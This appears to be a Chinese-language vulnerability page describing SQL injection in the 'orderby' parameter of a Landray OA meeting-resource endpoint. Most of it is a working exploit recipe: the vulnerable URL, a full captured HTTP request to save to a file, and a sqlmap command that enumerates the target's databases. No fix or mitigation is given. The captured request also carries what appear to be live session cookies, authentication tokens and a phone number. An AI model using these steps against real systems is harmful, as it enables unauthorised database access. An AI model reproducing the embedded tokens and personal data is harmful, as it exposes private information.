 <languages /> <translate>

漏洞影響
--------

2021-3-24 前版本 </translate>

<translate>

漏洞利用
--------

</translate>

<translate> 存在SQL注入的 Url為: </translate>

    https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true

<translate> 其中存在SQL注入的參數為 ordeby ， 數據包如下: </translate>

    GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Connection: keep-alive
    sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
    sec-ch-ua-mobile: ?0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: cross-site
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; j_lang=zh-CN; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616568455; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616568455; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616568455; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; add_customer=0; JSESSIONID=F4A2DFFF611470A0AA00C1B4CEB0800B; LtpaToken=AAECAzYwNUI0NTRBNjA1QkVFMEFsaXd3MjYdcI6ajDXZSNpXOsKhMSNAGaQ=; original_name=16b53df64e78c7c0ab2d4e54165a6415; roletype=%E6%A8%A1%E5%9D%97%E7%AE%A1%E7%90%86%E5%91%98; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616594251

<translate> 保存為文件，使用 Sqlmap 注入: </translate>

    sqlmap -r sql.txt -p orderby --dbs

<translate>

參考
----

</translate> <https://mp.weixin.qq.com/s/jnmB8h9UCztt-FL3aKmn0g>